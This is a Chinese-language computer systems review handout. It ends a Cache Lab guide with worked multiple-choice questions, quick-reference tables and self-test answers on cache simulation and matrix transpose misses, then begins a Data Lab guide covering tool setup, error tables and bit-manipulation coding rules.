除了这类题，本部分还按 Cache Lab 的核心内容给出几道计算题：地址划分、一段 trace 的命中序列、转置程序的不命中次数、矩阵行的起点。计算题的错误选项大多来自把 trace 中的十六进制地址当成十进制、把组号和块内偏移的位置弄反，以及忘了 M 操作要访问两次。下面的分析中，“选项 A”指题目的选项，单独的 A、B 指两个矩阵。所有数字都由 csim-ref、test-trans 或第 3.3 节的模型核对过，trace 与地址的计算另用 sim/choice/cache_choice.py 复算。
9.1 实验说明与工具#
例 1（单选）关于 Cache Lab 中用到的工具，说法错误的一项是：
A. traces 目录中的访存记录由 valgrind 的 lackey 工具产生
B. csim-ref 的作用是生成 Part A 要用的 trace 文件
C. 自己的模拟器可以用 getopt 解析 -s、-E、-b、-t 等命令行参数
D. test-trans 先检查转置是否正确，再用 valgrind 记录转置函数的访存，并用 csim-ref 按 s = 5、E = 1、b = 5 统计不命中
答案
B
csim-ref 是 Part A 的参考模拟器，它读 trace、输出命中和不命中，用来和自己的模拟器对照（加 -v 时逐行打印，便于 diff），并不生成 trace（第 1.2 节）。trace 由 valgrind 的 lackey 工具记录程序的访存得到，所以选项 A 正确；选项 C 正确，getopt 正是 handout 推荐的解析方式（第 2.3 节）；选项 D 描述的是 test-trans 的工作流程，也正确。
例 2（单选）按实验说明，Part A 的模拟器处理 trace 中的各种操作时，应当：
A. I（取指令）也要当作一次访存模拟
B. M 只当作一次访存，因为它只涉及一个地址
C. S 不读数据，可以忽略
D. 忽略 I；L 与 S 各当作一次访存；M 当作同一地址先 L 后 S，共两次访存
答案
D
实验说明规定忽略取指令的 I 行，只模拟数据访问；L 和 S 在缓存中的效果相同，各访问一次；M 是读改写，相当于对同一地址先读后写（第 1.2 节）。选项 A、C 都与规定相反。选项 B 是最常见的错误：M 只算一次时，命中数会少，结果与 csim-ref 对不上。
例 3（单选）一次 M 操作在 -v 模式下，不可能出现的输出是：
A. miss miss B. hit hit C. miss hit D. miss eviction hit
答案
A
M 对同一地址先读后写。第一次访问不论命中与否，结束时这一块都在缓存中，而且是本组最近使用的一块，所以第二次访问一定命中，不可能出现两次不命中。选项 B 是第一次就命中；选项 C 是冷不命中后命中；选项 D 是组已满、不命中时先驱逐一行，再命中。
9.2 地址划分与命中序列#
例 4（单选）下面的 trace（地址为十六进制）在 (s, E, b) = (1, 2, 4) 的缓存上用 LRU 运行，最后的结果是：
A. hits:2 misses:5 evictions:3
B. hits:1 misses:6 evictions:4
C. hits:0 misses:6 evictions:4
D. hits:1 misses:6 evictions:6
L 0,4
L 24,4
S 40,4
L 8,4
M 28,4
L 44,4答案
B
b = 4，块大小 16 字节，块号是地址除以 16：六次访问依次是块 0、2、4、0、2、4。s = 1 时只有两组，组号是块号的最低位，6 次访问全在第 0 组，每组 2 行。块 0、2 冷不命中；块 4 不命中，驱逐最久未用的块 0；再访问块 0，驱逐块 2；M 28 访问块 2，读不命中并驱逐块 4，写命中；最后块 4 驱逐块 0。合计 hits:1、misses:6、evictions:4（csim-ref 核对）。选项 A 是同样容量的直接映射缓存 (2, 1, 4) 的结果：它把块 2 分到了另一组，反而保住了它，这说明相联度高并不保证每个访问序列都更好。选项 C 把 M 只算成了一次访存。选项 D 每次不命中都计一次驱逐，忽略了前两次是冷不命中，组里还有空行。
例 5（单选）Part B 的评测缓存是 s = 5、E = 1、b = 5。地址 0x10d0a0 所在的组号和标记是：
A. 第 5 组，标记 0x8685
B. 第 0 组，标记 0x434
C. 第 20 组，标记 0x434
D. 第 5 组，标记 0x434
答案
D
组号是 (地址 >> 5) & 31，标记是地址 >> 10。0x10d0a0 >> 5 = 0x8685，低 5 位是 5；0x10d0a0 >> 10 = 0x434。选项 A 把“右移 b 位”的结果直接当成了标记，没有再去掉组号的 5 位。选项 B 把地址的低 5 位（块内偏移）当成了组号。选项 C 把组号和块内偏移的位置弄反了，取的是标记的低 5 位。
例 6（单选）64×64 的 int 矩阵 A 中，A[0][0] 的地址是 0x10d0a0（第 5 组）。在同一个评测缓存上，A[4][0] 在第几组？
A. 第 5 组 B. 第 13 组 C. 第 9 组 D. 第 21 组
答案
A
A 的一行 64 × 4 = 256 字节，即 8 个块，占 8 个组；4 行是 32 个块，正好绕缓存一圈，所以 A[4][0] 的地址 0x10d4a0 仍在第 5 组。这就是 64×64 难做的根源：相隔 4 行的元素互相冲突。选项 B 忘了乘 int 的 4 字节，只加了 4 × 64 = 256 字节，得到的 0x10d1a0 在第 13 组；选项 C 以为每一行只移动一个组；选项 D 以为每一行占 4 个块。
9.3 模拟器的实现#
例 7（单选）模拟器用一维数组 cache 存放所有行（类型为 line_t *），每组 E 行连续存放。第 set 组的起点应当写成：
A. cache + (1 << set) * E * sizeof(line_t)
B. cache + set * E * sizeof(line_t)
C. cache + set * E
D. cache + set
答案
C
第 set 组前面有 set 个组，每组 E 行，所以起点是第 set × E 行；指针加法已经按元素的大小缩放，不能再乘 sizeof。选项 A 把组号当成了指数，还多乘了 sizeof，会越界访问。选项 B 多乘了 sizeof。选项 D 忘了每组有 E 行，只在 E = 1 时碰巧正确。
例 8（单选）下面的函数想把命令行参数转换成 int，失败时返回 –1。在 long 为 64 位的系统上，输入 "3000000000" 时它的结果是：
A. 返回 –1，因为 errno 被置为 ERANGE
B. 返回 0，*out 等于 3000000000
C. 返回 0，*out 等于 –1294967296
D. 程序因溢出而崩溃
int parse(const char *str, int *out)
{
char *end;
long v = strtol(str, &end, 10);
if (errno == ERANGE)
return -1;
*out = (int) v;
return 0;
}答案
C
3000000000 在 64 位 long 的范围之内，strtol 不置 ERANGE，函数继续执行；强制转换成 int 时超出范围，回绕成 –1294967296，函数返回 0，把一个错误的值当作成功（本机实测）。选项 A 只在 long 也溢出时才成立；选项 B 忽略了 int 只有 32 位；选项 D 不对，转换不会使程序崩溃。这个函数还有别的问题：输入 "abc" 和 "4x" 也都被当作成功（*out 分别为 0 和 4），因为它没有检查 end；调用前也没有把 errno 置 0。正确的写法见第 2.4 节。
9.4 转置的不命中#
例 9（单选）32×32 的转置采用 8×8 分块，每次把 A 的一行 8 个数读进局部变量，再写到 B 的一列。test-trans 报告的不命中次数是：
A. 260 B. 256 C. 284 D. 288
答案
D
非对角分块中，A、B 各 8 块各装入一次，共 16 次；对角分块中 A 的第 k 行与 B 的第 k 行同组，互相替换，共 23 次（第 4.4 节）。12 × 16 + 4 × 23 = 284，再加上 4 次额外访问，test-trans 报告 288 次。选项 C 漏了那 4 次额外访问。选项 B 是 A、B 各 128 块的纯粹下界，选项 A 是下界加上 4 次额外访问，那是消除了对角线冲突之后（第 4.6 节）才能达到的结果。
例 10（单选）64×64 的转置照搬 32×32 的 8×8 分块，结果几乎和逐行转置一样差。主要原因是：
A. 64×64 中 B 的第 j 行与第 j + 4 行同组，按列写入一个 8×8 分块时，这两行反复互相替换
B. 8×8 的分块太大，A、B 两块装不进 32 块的缓存
C. 读 A 时访问不连续
D. 对角线冲突只在 64×64 中出现
答案
A
例 6 说明，64×64 中相隔 4 行的元素在同一组。写 B 的一个 8×8 分块要用到 B 的 8 行，而缓存的同一组只能放下其中一行，第 j 行与第 j + 4 行反复互相替换，几乎每次写都不命中（实测 4724 次）。选项 B 不对：A、B 的一个 8×8 分块各占 8 块，共 16 块，本来装得下，问题在于这些块在组上的分布。选项 C 不对，A 是按行读的。选项 D 也不对，32×32 中同样有对角线冲突，只是它造成的不命中少得多。
例 11（单选）60×68 的转置中，A 有 68 行、60 列，A 的起点与 32 字节的块对齐。A 的第 1 行从哪里开始？
A. 第 8 块的开头
B. 第 7 块的中间（第 240 字节处）
C. 第 7 块的开头
D. 第 8 块的中间
答案
B
A 的一行 60 × 4 = 240 字节，是 7.5 个块，所以第 1 行从第 240 字节开始；240 = 7 × 32 + 16，即第 7 块（从 0 数起）的中间。偶数行从块的开头开始，奇数行从块的中间开始，这决定了竖条的宽度怎样选才不会让一段跨块（第 6.4 节）。选项 A、C 都把 7.5 块取成了整数；选项 D 是 B 矩阵的情形：B 有 60 行、68 列，一行 272 字节，第 1 行从第 8 块的中间开始。
例 12（单选）分块为什么能减少转置的不命中？
A. 它交换了 i、j 两层循环，使 B 按行写入
B. 它只处理对角线上的元素，用局部变量避免冲突
C. 它把矩阵分成能放进缓存的小块，一个小块中读入的 A 的缓存块和写入的 B 的缓存块，在被换出之前尽量被用完
D. 它一次读入 12 个元素放进局部变量，减少访存的次数
答案
C
逐行转置时，A 的局部性很好，B 却是按列写的，B 的一个缓存块要等 32 次写之后才再次被用到，那时早已被换出。分块把访问限制在一个小范围内，B 的一个缓存块装入之后，在这个分块内被连续写满 8 个数，A 也一样，于是两者的空间局部性都得到利用（第 4.3 节）。选项 A 只是把问题从 B 转移到了 A。选项 B 描述的是对角分块的局部处理，不是分块本身的原理。选项 D 不对：访存的次数不会因此减少，减少的是不命中的次数；12 个局部变量是规则的上限，不是分块的原理。
第十部分 速查与自测#
10.1 一页纸速查#
表 24 Part A 速查
| 项目 | 要点 |
|---|---|
| 地址划分 | set = (addr >> b) & ((1UL << s) − 1)，tag = addr >> (s + b)，全部用 unsigned long |
| 合法参数 | s ≥ 0，E ≥ 1，b ≥ 0，s + b < 64；s = 0 是全相联 |
| 数据结构 | calloc(E << s, sizeof(line_t))，每行存有效位、标记、时间戳；第 i 组从 i × E 开始 |
| 命中 | 有效且标记相等；更新时间戳 |
| 不命中 | 先找空行；没有空行才驱逐时间戳最小的行，并计一次驱逐 |
| 读 trace | fscanf(fp, " %c %lx,%d", ...)；跳过 I；M 访问两次，第二次必命中 |
| 命令行 | getopt(argc, argv, "hvs:E:b:t:")：冒号表示要带值，值在 optarg；返回 '?' 表示出错，−1 表示结束；-std=c99 下要 include getopt.h |
| 转换整数 | errno = 0；v = strtol(str, &end, 10)；检查 end == str、*end != '\0'、errno == ERANGE、int 范围 |
| 输出 | 结果用 printf（stdout）；错误用 fprintf(stderr, ...)，文件打不开用 perror；> f 只重定向 stdout |
| 收尾 | printSummary（test-csim 读它写的 .csim_results）；free、fclose；正常结束返回 0，出错返回非 0 |
表 25 Part B 速查
| 项目 | 要点 |
|---|---|
| 评测缓存 | s = 5、E = 1、b = 5：32 组 × 32 字节，一块 8 个 int |
| 组号 | (s0 + (行长 × 行 + 列) / 8) mod 32；A、B 相距 256 KB，同偏移同组 |
| 能同时放几行 | 32×32：8 行；64×64：4 行（第 r 与 r+4 行同组）；60×68：不规则 |
| 朴素下界 | 两矩阵的块数之和加 4：260、1028、1024；60×68 的 1024 不可达，可以证明至少 1025（第 8 部分） |
| 对角分块 | 方阵中 A 的第 k 行与 B 的第 k 行同组，多出的不命中集中在这里 |
| 32×32 | 8×8：整行拷到 B，再在 B 中就地转置，260 |
| 64×64 | 8×8 拆四象限，右上暂存于 B 的右上；对角分块借相邻分块并紧接着处理它，1028 |
| 60×68 | 4 列竖条、每 24 行一段、先读后写，1430；8 列竖条 1506；整块读 A、12 行一带扫描 1402，再搜索读取顺序 1270（第 8 部分） |
| 规则 | 每个函数最多 12 个 int 局部变量（含调用链）；不能数组、malloc、递归、改 A |
10.2 易错点#
第一，tag 必须用 64 位类型保存，否则高位被截断（第 2.1 节）。第二，命中要同时检查有效位（第 2.2 节）。第三，有空行时不计驱逐，驱逐数不会超过不命中数（第 2.2 节）。第四，M 是两次访问（第 2.2 节）。第五，-std=c99 下要 include getopt.h（第 2.3 节）；用 strtol 前把 errno 置 0，之后检查 end 和 errno，不要用 atoi（第 2.4 节）。第六，分块的行数不能超过“能同时放几行”，64×64 的 8×8 分块就败在这里（第 5.1 节）。第七，trace 开头的 4 次访问不是矩阵元素，分析时只看大小为 4 的访问（第 3.3 节）。第八，循环边界写 j + 8 <= M，否则 60 列的矩阵会越界（第 6.3 节）。第九，暂存区要在被后续工作用上之前保持在缓存中，处理顺序会改变结果（第 4.6、5.4 节）。
10.3 自测题#
以下都是单选题，答案和逐项分析在后面。分析中的“选项 A”指题目的选项，单独的 A、B 指两个矩阵。
1．某缓存 s = 2、E = 2、b = 3，LRU 替换。对 trace “L 0, L 20, L 40, L 0, L 60, L 20”（地址为十六进制），最后的结果是：
A. hits:1 misses:5 evictions:3
B. hits:0 misses:6 evictions:2
C. hits:0 misses:6 evictions:4
D. hits:2 misses:4 evictions:0
2．模拟器中，如果 LRU 的时间戳只在不命中装入时更新、命中时不更新，替换策略会变成什么？对上一题的结果有没有影响？
A. 变成先进先出（FIFO）；上一题没有命中，结果不变
B. 变成随机替换；结果会变
C. 变成“最近使用的先换出”；结果会变
D. 变成先进先出；上一题的结果也会变
3．csim-ref 拒绝执行 -s 0 -E 4 -b 0。这组参数描述的是什么样的缓存，自己的模拟器应当怎样处理？
A. 参数非法，应当报错退出
B. 4 组的直接映射缓存，块大小 1 字节
C. 4 行、每行 4 字节的缓存，应当特判
D. 只有 1 组、4 行的全相联缓存，块大小 1 字节；参数合法，应当正常运行
4．32×32 的朴素逐行转置共 1184 次不命中，其中写 B 产生的不命中约为：
A. 128 B. 1024 C. 156 D. 592
5．64×64 用 4×4 分块，非对角分块没有 A、B 之间的冲突，不命中却仍有 1892 次，接近下界 1028 的两倍。主要原因是：
A. A、B 的同一行落在同一组
B. 4×4 的分块太大，装不进缓存
C. 局部变量不够用
D. 每次只用一个缓存块的一半，另一半要等到相邻的分块才用，其间被其他访问换出
6．32×32 借相邻分块暂存的写法中，如果先集中处理 4 个对角分块，再处理其他分块，不命中会是多少？
A. 292 B. 260 C. 288 D. 1028
7．60×68 中，B 有 60 行、68 列。B 的一行是多少块，B 的第 1 行从哪里开始？
A. 8 块；第 1 行从第 8 块的开头开始
B. 7.5 块；第 1 行从第 7 块的中间开始
C. 8.5 块；第 1 行从第 8 块的中间开始
D. 9 块；第 1 行从第 9 块的开头开始
8．第 4.6 节“先拷贝、再在 B 中就地转置”的方法，能否直接用于 64×64 的 8×8 分块？
A. 能，B 的一个 8×8 分块的 8 行都能同时留在缓存中
B. 不能，B 的第 j 行与第 j + 4 行同组，8 行只能同时保留 4 行，就地转置时会反复互相替换
C. 能，只是需要 16 个局部变量
D. 不能，因为 64 不是 32 的整数倍
9．评测程序为什么限制局部变量的个数，却不限制访问 B 的次数？
A. 局部变量放在寄存器里，太多会出错
B. 为了限制代码的长度
C. 为了防止编译器把转置优化掉
D. 对 A、B 的每一次访问都会计入不命中；栈上的访问被过滤掉了，大量局部变量等于把数据搬进不计数的内存
自测题答案#
1．C。块号 = 地址 ÷ 8，组号 = 块号 mod 4。地址 0、0x20、0x40、0x60 的块号是 0、4、8、12，全在第 0 组，组内 2 行：L 0 miss；L 20 miss；L 40 miss eviction（换出块 0）；L 0 miss eviction（换出块 4）；L 60 miss eviction（换出块 8）；L 20 miss eviction（换出块 0）。合计 hits:0、misses:6、evictions:4（csim-ref 核对）。选项 D 是把地址误当成十进制的结果：块号变成 0、2、5、0、7、2，分散到不同的组，几乎没有冲突。选项 A、B 的驱逐次数与不命中次数对不上：两行的组在第三次不命中之后，每次不命中都要驱逐。
2．A。只在装入时更新时间戳，被驱逐的就总是最早装入的一行，不管它最近是否被用过，这就是先进先出。上一题一次命中也没有，两种策略的时间戳完全相同，结果不变；只要有命中，两种策略就可能不同。选项 B、C 描述的都不是这种行为；选项 D 判断错了结果是否改变。
3．D。s = 0 表示只有 1 组，E = 4 表示这一组 4 行，即 4 行的全相联缓存；b = 0 表示块大小 1 字节。这些参数都合法，模拟器应当正常运行：组号的掩码 (1UL << 0) – 1 = 0，所有地址都在第 0 组，不需要特判（第 1.1 节列出的勘误之一：csim-ref 把它们当作缺少参数）。选项 A 照搬了 csim-ref 的错误；选项 B 把 s 和 E 的含义弄混了；选项 C 把 b 理解成了字节数。
4．B。B 按列写，相邻两次写在不同的行，B 的一行要等 32 次写之后才再次被用到，那时早已被换出（32 行占 128 块，缓存只有 32 块），所以每次写都不命中，共 1024 次。A 按行读，大约每 8 次访问 1 次不命中，约 128 次；第 3.3 节的模型统计为 156 次（B 的写入偶尔会换出 A 正在读的块），加上 4 次额外访问，合计 1184。选项 A、C 都是 A 的不命中；选项 D 是把总数平分的结果。
5．D。缓存块有 8 个 int，4×4 分块每次只用其中 4 个，另一半要等到相邻的分块才用，而处理一个分块要写 B 的 4 行，其间的访问会把它换出，所以大多数块被装入两次（实测 1892 次）。选项 A 不对，题目已说明非对角分块没有 A、B 之间的冲突；选项 B 不对，4×4 的分块很小；选项 C 与不命中次数无关。
6．A。先集中处理 4 个对角分块时，后一个对角分块的 A、B 行与前一个暂存区落在相同的组，暂存区被换出，到它自己的分块时要重新装入，每个多 8 次，合计 292。处理完每个对角分块就紧接着处理它的暂存分块，才是选项 B 的 260。选项 C 是 8×8 分块不做特殊处理时的结果；选项 D 是 64×64 的最终结果。
7．C。B 的一行 68 × 4 = 272 字节，是 8.5 块；第 1 行从第 272 字节开始，272 = 8 × 32 + 16，即第 8 块的中间。选项 B 是矩阵 A 的情形（一行 60 个 int）；选项 A、D 把 8.5 块取成了整数。
8．B。第二阶段要求 B 的这个 8×8 分块的 8 行同时在缓存中，但 64×64 中 B 的第 j 行与第 j + 4 行同组，8 行只能同时保留 4 行，就地转置时会反复互相替换。所以 64×64 只能以 4 行为单位处理，再借 B 的其他位置暂存（第 5.3 节）。选项 A 忽略了这种冲突；选项 C 不对，问题不在变量的个数；选项 D 给出的理由与冲突无关。
9．D。评测程序看得到对 A、B 的每一次访问，它们都按实际情况计入不命中，不需要限制；栈上的访问被过滤掉了，看不到。限制局部变量的个数，是为了不让人把大量数据放在栈上，绕过计数。选项 A、B、C 都不是这条规则的理由。
—— Cache Lab 讲义完 ——
计算机系统导论（ICS）
复习讲义 · Lab 专题
Data Lab：位操作、补码运算与浮点数的位级实现（Manipulating Bits）
如何使用本讲义#
Data Lab 是本学期的第一个实验：在严格限制运算符和操作数个数的条件下，用位运算实现一组函数。题目大多“很人工”，但做完之后，你会对补码、移位和浮点编码形成一种直觉——看到 x >> 31 就知道它是符号掩码，看到 x & -x 就知道它取出最低位的 1。学期末的 Lab 测验是单选题，考的正是这种直觉：给一段位运算代码问它算什么、从四个选项中选出补全的表达式、判断一种写法在什么输入下出错、选出某个浮点运算的位模式。
本讲义先用第 0 部分讲上手与测评，正文分六部分。第一部分讲规则、工具和评分，弄清楚“什么写法合法、操作符怎么数”。第二部分把整个 Lab 用到的手法归纳成一个方法工具箱，这是理解后面所有题目的基础。第三部分逐题讲解本学期的 16 道题：题意、思路、一种操作符较少的解答、边界情况，并和自己的解答对照。第四部分从 Data Lab 历年的题库中选了 16 道经典题，用同样的方法解决，作为拓展。第五部分按 Lab 测验的题型整理单选例题。第六部分是速查表和自测题。
讲义中的所有代码都通过了 dlc 的规则检查，操作符个数是 dlc 实测的；整数题经过 BDD 检查器的穷举验证，浮点题除了 btest 之外，还在全部 232 个输入上与硬件的浮点运算逐一比对过。文中的数值例子都由程序运行核对。实验说明与 bits.c 不一致的地方，用橙色方框指出。
表 1 本讲义的内容地图
| 部分 | 内容 | 小节 |
|---|---|---|
| 上手与测评 | 环境、材料、构建与自测、按题组的起步路线、提交前自检 | 0.1–0.4 |
| 规则与工具 | 编码规则、操作符计数、未定义行为；btest、dlc、BDD 检查器、driver.pl；评分方式 | 1.1–1.4 |
| 方法工具箱 | 补码恒等式、构造常数与掩码、布尔化与条件选择、比较与溢出、移位、分治、最低位、浮点拆字段 | 2.1–2.9 |
| 本学期 16 题 | 位操作 6 题、补码运算 6 题、浮点 4 题 | 3.1–3.16 |
| 拓展 | 历年题库精选：整数 13 题、浮点 3 题 | 4.1–4.16 |
| 测验题型 | 单选：读代码、代码填空、找反例、规则与计数、浮点位模式 | 5.1–5.5 |
| 速查与自测 | 一页纸速查、易错点、自测题与答案 | 第六部分 |
0 上手与测评#
Data Lab 是本学期第一个要写代码的 Lab。每道题的答案通常只有一两行，handout 里的工具却有五六个，第一次接触时很容易把时间花在题目以外的地方：环境不是 x86-64 Linux，工具根本跑不起来；写法违反了 dlc 的规则，自己却以为是算法错了；改了 bits.c 忘记重新编译，测的还是旧程序。这一部分先把这些动手之前的事讲清楚，再给出按题组推进的顺序、几个做题的习惯和一张常见报错表；每道题的推导在第三部分。
0.1 环境与材料#
实验说明要求在自己的 xLab 容器里完成。登录 Autolab，在 Data Lab 页面下载 datalab-handout.tar，用 Linux 的 tar 解开。不要在 Windows 上解压：Windows 的文件系统没有 Unix 的执行权限，dlc、btest 这些程序解开后会丢掉 x 权限，运行时报“Permission denied”。handout 中的 dlc、cbit 和编译出的 btest 都是 x86-64 Linux 程序，在 Apple Silicon 的 Mac 上直接运行会报“Exec format error”，所以至少在验证阶段要回到 xLab 容器或者一个 x86-64 Linux 容器里。
表 2 Data Lab 的材料与用途
| 文件或目录 | 用途 | 使用要点 |
|---|---|---|
| datalab.pdf | 官方实验说明（8 页） | 先读 §2–§4 的规则、§5 的题目表、§6–§7 的评分与工具 |
| bits.c | 唯一要修改并提交的文件 | 16 个函数的骨架；每个函数上方的注释写明了允许的运算符和操作符上限 |
| tests.c、decl.c | 参考实现与声明 | 只用来对照，不要修改，也不要把参考实现抄进 bits.c（参考实现本身就违反编码规则） |
| dlc | 规则检查器 | ./dlc bits.c 检查合法性；./dlc -e bits.c 打印每个函数的操作符个数 |
| btest | 功能测试 | 每次修改 bits.c 后都要重新 make；-f 只测一个函数，-1、-2 指定参数 |
| bddcheck/check.pl | 整数题的穷举检查 | -f 函数名 查一个，-g 查全部并给出汇总 |
| ishow、fshow | 查看整数、浮点数的位模式 | make 时一起编译；浮点题调试时很有用（第 0.2 节） |
| driver.pl | 本地评分 | 依次调用 dlc、BDD 检查器和 btest，与 Autolab 用的是同一个程序 |
进入 handout 目录后先 make 一次。第一次编译出的 btest 对 16 道题全部报错是正常的，因为函数体还是空的；如果 make 失败、连 btest 都没有生成，说明环境或者解压有问题，先把工具链弄好，再开始写题。
0.2 构建、自测与评分#
Data Lab 的工作节奏很短：改一个函数，用 dlc 检查规则，用 btest 测功能，整数题再用 BDD 检查器穷举，全部通过后再做下一道。driver.pl 留到阶段性检查时再运行，不必每改一行就跑一次。
cd datalab-handout
make
./dlc bits.c # 规则检查；没有任何输出才算通过
./dlc -e bits.c # 每个函数用了几个操作符
./btest -f bitXor # 只测一个函数
./btest -f bitXor -1 7 -2 0xf # 指定参数，十进制或十六进制都可以
./bddcheck/check.pl -f bitXor # 整数题的穷举检查
./bddcheck/check.pl -g # 全部整数题，给出汇总
./driver.pl # 最终的本地分数make 会把 bits.c 和 tests.c 一起编进 btest，所以只改 bits.c 而不重新 make，btest 运行的还是旧程序，这是“为什么改了却没有变化”最常见的原因。两种检查各有分工：整数题以 BDD 检查器为准，它对所有输入穷举验证，出错时报告使函数出错的参数；浮点题以 btest 为准，BDD 检查器对个别浮点函数会报出“Mismatch … False negative”，即使解答完全正确也会出现（原因见第 1.3 节）。
做浮点题时，handout 自带的 ishow 和 fshow 能省下很多手算。ishow 显示一个数的十六进制、有符号和无符号三种解释，fshow 把一个位模式拆成符号、阶码和尾数，并说明它是规格化数、非规格化数还是特殊值：
$ ./ishow 0x80000000
Hex = 0x80000000, Signed = -2147483648, Unsigned = 2147483648
$ ./fshow 0x00400000
Floating point value 5.877471754e-39
Bit Representation 0x00400000, sign = 0, exponent = 0x00, fraction = 0x400000
Denormalized. +0.5000000000 X 2^(-126)
$ ./fshow 0xff800000
Floating point value -inf
Bit Representation 0xff800000, sign = 1, exponent = 0xff, fraction = 0x000000
-Infinity给浮点题指定参数时有一个陷阱：btest 判断参数是整数还是浮点数，看的是写法。带小数点、或者带 e 而不是十六进制的写法按浮点数处理，传入它的位模式；其余都按整数处理，直接当作位模式。所以 ./btest -f float_twice -1 1.0 传入的是 1.0（0x3f800000），而 -1 1 传入的是位模式 0x00000001，一个极小的非规格化数（按 btest.c 的解析函数实测）。
评分由正确性和性能两部分组成。正确性占 48 分，是 16 道题的难度分之和；性能占 32 分，每道正确、并且操作符个数不超过上限的题得 2 分；原始的 80 分再线性折算到 100 分。dlc -e 报告的操作符个数超过上限时，这道题的正确性分仍在，只是丢掉性能分。所以顺序永远是先做对，再想办法少用一个操作符。handout 的 Makefile 用 -O1 -fwrapv 编译 btest；自己写小程序核对溢出表达式时也要加 -fwrapv，否则 gcc 会按“有符号溢出是未定义行为”来优化，算出的结果与 Lab 的回绕假设不一致。
0.3 按题组推进#
16 道题分成三组，按组推进比按题号硬做更稳：每组先做最短的题，熟悉“改一处、dlc、btest、BDD”的节奏，再逐渐加难度。三组分别对应 datalab.pdf 的 §5.1–§5.3。
表 3 Data Lab 的起步顺序与常见卡点
| 题组 | 建议的顺序 | 第一个动作与常见卡点 | 对应 |
|---|---|---|---|
| 位操作 6 题（§5.1） | bitXor → getByte → leastBitPos → logicalShift → grayToBinary → bitCount | 先读 bits.c 的注释，确认这一题允许哪些运算符。leastBitPos 不能用减号；logicalShift 要清掉算术右移补进来的高位；移位量达到 32 是未定义行为 | 3.1–3.6 |
| 补码 6 题（§5.2） | isEqual → divpwr2 → sign → addOK → absVal → satSub | 先跑通最简单的 isEqual，再处理 divpwr2 的舍入和 addOK 的溢出。TMin 是最常见的反例：–TMin 仍是 TMin，判断非零、求绝对值、做减法时都要单独想一遍 | 3.7–3.12 |
| 浮点 4 题（§5.3） | float_twice → float_negpwr2 → float_f2i → float_greater | 浮点题不能用 float 类型和浮点运算；0、非规格化数、无穷、NaN 要分别处理；float_greater 比较的是位模式，±0 要单独判断 | 3.13–3.16 |
时间不够时，优先做 bitXor、getByte、leastBitPos 和 isEqual、divpwr2、sign，它们覆盖了掩码、字节提取、算术右移、比较和符号处理这些最常用的手法；浮点题至少做 float_twice 和 float_greater，前者练非规格化数与特殊值，后者练“把位模式变成可以比较的键”。学期末的 Lab 测验中，Data Lab 的题目是题库中经典函数的代码填空，用到的正是这些手法（第五部分）。
0.4 做题的几个习惯#
第一，动手之前先读 bits.c 中这道题的注释：允许的运算符、操作符上限和例子都写在那里，不同的题限制不同。第二，先写一个不计较操作符个数的正确版本，通过 btest 和 BDD 检查之后再压缩；一开始就追求最少的操作符，常常连对错都难以判断。第三，每写完一道题，先用几个关键值单独测一遍：0、1、–1、TMin（0x80000000）、TMax（0x7fffffff），浮点题再加上 ±0、最小的非规格化数、最大的规格化数、无穷和 NaN，用 -1、-2 把它们直接传给 btest。这几个值是第三部分各题最常见的反例。第四，dlc 要早跑：一个块内的声明必须写在所有语句之前，这是 gcc 不管、dlc 却会报错的规则，等写完 16 道题再查，改起来就很麻烦。最后，调试时可以临时调用 printf 观察中间值，gcc 只会给出警告；但提交之前要删干净，BDD 检查器不能处理函数调用。
0.5 常见报错与原因#
Data Lab 的报错大多不是“算法不会”，而是规则或工具的用法不对。遇到报错，先判断它来自 dlc、gcc 还是测试程序，再看下表。
表 4 Data Lab 的报错现象与原因
| 现象 | 可能的原因 | 怎么查、怎么改 |
|---|---|---|
| dlc 报语法错误，位置在变量声明 | dlc 要求一个块内的声明全部写在语句之前 | 把局部变量的声明集中到函数开头 |
| Illegal constant | 使用了超过 8 位的常数 | 只使用 0x00–0xFF 的常数，大常数用移位和组合构造 |
| Illegal operator | 整数题用了减号、比较、?:、&&、强制类型转换或控制结构 | 回到注释允许的运算符；整数题只能用 ! ~ & ^ | + << >> |
| 改了 bits.c，btest 的结果不变 | 没有重新 make，btest 还是旧程序 | 每次修改后 make && ./btest -f 函数名 |
| BDD 检查器报函数格式错误 | 函数没有以 int fun(...) 或 unsigned fun(...) 开头，或者右花括号不在最左列 | 按 bits.c 的骨架保留签名和右花括号；删掉调试用的 printf |
| btest 通过，driver.pl 的分数却低 | 操作符个数超过上限，丢了性能分 | 用 ./dlc -e bits.c 对照上限 |
| BDD 报 Mismatch，但两个结果相同 | 浮点参考函数含浮点比较，BDD 无法符号模拟 | 浮点题看 btest 的结果，不要按 BDD 的假阴性改代码 |
浮点题用 -1 1 测试，结果出乎意料 | 不带小数点的参数按位模式传入，0x00000001 是非规格化数 | 要传 1.0 就写 -1 1.0，或者直接写位模式 -1 0x3f800000 |
| 移位结果与手算不一致 | 移位量达到或超过 32 | 避免 n = 0 时出现 1 << (32 - n) 这类写法，改用别的方式构造掩码 |
| Exec format error 或 Permission denied | 在 ARM 的 Mac 上运行；或在 Windows 上解压丢了执行权限 | 换到 x86-64 Linux 容器；在 Linux 中重新解压 |
0.6 提交前检查#
提交之前，先在 handout 目录运行 ./dlc bits.c，确认没有任何输出，再用 ./dlc -e bits.c 对照一遍操作符上限。然后删掉调试用的 printf 和 #include <stdio.h>，重新 make 并运行 btest，整数题再跑一遍 ./bddcheck/check.pl -g。最后运行 ./driver.pl，确认总分与预期一致。只需要提交 bits.c，tests.c、Makefile 和 bddcheck 目录都不要修改；如果在别的环境里写过代码，提交前到 xLab 容器里重新 make 一次再测，避免只在本地的旧程序上通过。
第一部分 规则、工具与评分#
1.1 整数题的编码规则#
本学期的 16 道题分为三组：位操作（6 题）、补码运算（6 题）和浮点运算（4 题）。前两组统称整数题，规则非常严格。每个函数体只能是直线代码：先声明若干 int 局部变量并赋初值，再写若干赋值语句，最后 return 一个表达式。表达式里只允许出现三样东西：0 到 255（0xFF）之间的整数常数；函数参数和局部变量；8 个运算符 ! ~ & ^ | + << >>。有些题目还会进一步缩小运算符的范围，例如 bitXor 只允许 ~ 和 &，grayToBinary 只允许 ^ 和 >>。
明确禁止的写法有七类：if、while、for、switch 等控制结构；宏；自己定义的函数；函数调用；&&、||、-、?: 以及比较运算符；任何强制类型转换；int 以外的数据类型（于是也不能用数组、结构体、联合）。规则同时给出三条关于机器的假设：整数是 32 位补码；右移是算术右移；移位量超过字长时行为不可预测。
